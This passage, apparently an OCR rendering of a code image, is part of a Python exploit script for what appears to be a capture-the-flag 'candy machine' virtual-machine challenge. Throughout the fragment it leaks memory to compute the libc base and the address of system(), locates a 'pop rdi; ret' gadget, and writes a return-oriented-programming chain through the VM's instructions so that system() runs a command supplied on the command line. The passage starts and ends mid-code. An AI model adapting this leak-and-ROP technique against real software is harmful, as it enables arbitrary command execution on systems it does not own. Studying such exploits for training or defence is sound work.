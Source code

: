         # Tell candy machine to read more data.
        0xfe, 0,  0,
    ]), echo=False)
    # Consume uninteresting output.
    f.until(b'0000\n')
    
    # Get the interesting bits.
    data = [l.strip() for l in f.readlines(8)]
    
    # Parse output and calculate relevant addresses.
    libc_base = parse_addr(data[0:4]) - 0x6df52
    read_buffer = parse_addr(data[4:9]) - 0x4160
    system_addr = libc_base + libc.get_symbol('system')['value']
    system_arg = read_buffer + 52  # 52 = length of secondary program: 13 ops * 4 bytes.
    # Assemble the gadget we want and find it.
    gadget = asm('pop rdi\nret')
    gadget_addr = libc_base + find_gadget(libc, gadget)[0]['addr']
    
    # Concatenate command line arguments.
    system_cmd = ' '.join(sys.argv[1:]).encode('latin1')
    
    # Secondary program sets up the stack to return to the gadget and
    # then returns to the system() libc function.
    f.write(build([
        # Write address of gadget (pop rdi; ret) to RP.
        0x10, 23, (gadget_addr >> 48) & 0xffff,
        0x10, 22, (gadget_addr >> 32) & 0xffff,
        0x10, 21, (gadget_addr >> 16) & 0xffff,
        0x10, 20, (gadget_addr >>  0) & 0xffff,
    
        # Write address of argument to system to RP+8.
        0x10, 27, (system_arg >> 48) & 0xffff,
        0x10, 26, (system_arg >> 32) & 0xffff,
        0x10, 25, (system_arg >> 16) & 0xffff,
        0x10, 24, (system_arg >>  0) & 0xffff,
    
        # Write address of system() to RP+16.
        0x10, 31, (system_addr >> 48) & 0xffff,
        0x10, 30, (system_addr >> 32) & 0xffff,
        0x10, 29, (system_addr >> 16) & 0xffff,
        0x10, 28, (system_addr >>  0) & 0xffff,
    